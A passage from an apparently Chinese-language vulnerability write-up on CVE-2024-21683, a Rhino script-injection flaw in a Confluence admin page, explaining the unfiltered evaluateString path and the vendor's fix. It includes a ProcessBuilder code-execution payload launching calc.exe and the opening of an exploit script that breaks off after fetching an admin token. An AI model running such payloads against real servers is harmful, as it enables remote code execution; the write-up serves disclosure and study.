 可以看到，我们的text.js中的text被放置在如下位置：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJZ7Ep1Wbkh77jQmCWrR2icjfqBSATduzgS6yuJLbHwnrSGZb5VlGgJpg/640?wx_fmt=png&from=appmsg "")  
  
我们仔细看看这段代码：  
```
public final Object evaluateString(Scriptable scope, String source, String sourceName, int lineno, Object securityDomain) {
    Script script = this.compileString(source, sourceName, lineno, securityDomain);
    return script != null ? script.exec(this, scope) : null;
}

```  
  
可以参考以下两篇文章：  
> https://blog.51cto.com/u_16213644/7333014  
  
> https://dev.ariel-networks.com/Members/iwanaga/rhino-code-reading03/  
  
  
也就是说，会编译传入的脚本源代码，如果编译成功的话就执行该脚本并返回执行结果，如果编译失败，就返回 null。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJVKWs241dAibcbpicAKa5efANhkGfaYZrt8h2pK7g4QiatKjUiaRqvTicouA/640?wx_fmt=png&from=appmsg "")  
  
而这个evaluateReader函数的第二个参数包含我们传入的脚本，并且它的代码没有任何安全过滤的操作，因此我们可以自定义一些恶意的代码，例如：  
```
new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()

```  
  
具体还可以参考下面的文章学习：  
> https://blog.h3xstream.com/2014/11/remote-code-execution-by-design.html  
  
> https://srcincite.io/blog/2017/05/22/from-serialized-to-shell-auditing-google-web-toolkit-with-el-injection.html  
  
> https://book.hacktricks.xyz/v/cn/pentesting-web/ssti-server-side-template-injection/el-expression-language  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJAxfnkicKNYkEThI13DO7piahn51dUyq4QslPSpLicM4sE5HGl90FaRnIA/640?wx_fmt=png&from=appmsg "")  
  
那官方是怎么修复的呢？使用initSafeStandardObjects定义rhino的上下文，防止JavaScript引擎调用Java代码：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJrvktXfz1S3wRy8zqqc81QZy2AGS9LibXILyk8AWRibZZhNicLiaGhfW2UQ/640?wx_fmt=png&from=appmsg "")  
  
这部分知识其实也可以参考：  
> https://help.aliyun.com/zh/security-center/user-guide/learn-about-application-protection  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJzy3NBkgM0VibfTibKcoTt8auNW3nrDg8R6yELZl2RkeGcqTBCkrNVt1g/640?wx_fmt=png&from=appmsg "")  
# 三、自动化脚本编写  
  
https://github.com/W01fh4cker/CVE-2024-21683-RCE  
```
import argparse
import os

import requests
from bs4 import BeautifulSoup

def GeyAltToken(url, proxy, session):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
    }
    alttoken_url = f"{url}/admin/plugins/newcode/configure.action"
    resp = session.get(url=alttoken_url, headers=headers, verify=False, proxies=proxy, timeout=20)
```